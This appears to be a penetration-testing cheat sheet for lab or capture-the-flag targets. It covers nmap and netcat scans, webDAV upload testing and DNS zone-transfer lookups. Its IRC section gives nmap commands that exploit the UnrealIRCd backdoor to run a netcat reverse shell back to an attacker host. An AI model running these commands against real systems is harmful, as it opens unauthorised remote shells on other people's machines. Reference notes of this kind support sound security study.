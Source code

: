 ### nmap OS scan
    - OS Scan:
        > sudo nmap 192.168.1.1 -O --osscan-guess
        > sudo nmap 10.11.1.220 --script=smb-os-discovery

### nmap traceroute tcp
    > sudo nmap -Pn --traceroute -p 8000 destination.com

### netcat scans
    - Port Scanning (single host):
        - netcat: (TCP Scan)
            > nc -nvv -w 1 -z 10.11.1.220 3388-3390
        - netcat: (UDP Scan) 
            > nc -nv -u -z -w 1 10.11.1.115 160-162
        - Wireshark filter on [SYN,ACK] 
            - "tcp.flags==0x12"

### webDAV testing
    - davtest
        > davtest -url http://10.10.10.15
        - review what file types can be uploaded, upload with cadaver the file type.

### Other service scanning:

## IRC
    - irc (Unreal)
        > nc -nlvp 4444
        > nmap -p 8067 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.6 4444"  10.10.10.117
        > nmap -d -p6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc 4444 -e /bin/sh 10.10.14.6' 10.10.10.117

## DNS and domain lookups
    - Try to find any type of domain on a website.
    - If https check certificate info, subject name may give it away 
    - You must edit your /etc/hosts file to add entries (<server ip> <specific domain to test>)
        - confirm with dig requests, need to get IP addresses back
        - dig 
            - query host
                > dig @10.10.10.161 forest.htb.local
            - request zone transfer
                > dig axfr @10.10.10.161 htb.local
            - Hostname
                - Must configure "search" groups. For netplan under nameservers add "search:" then add below "- your.domain"
                > dig +search A hostname @172.39.90.12
            - FQDN
                > dig A hostname.domain.com @172.39.90.12
            - PTR
                > dig -x 172.39.90.39 @172.39.90.12
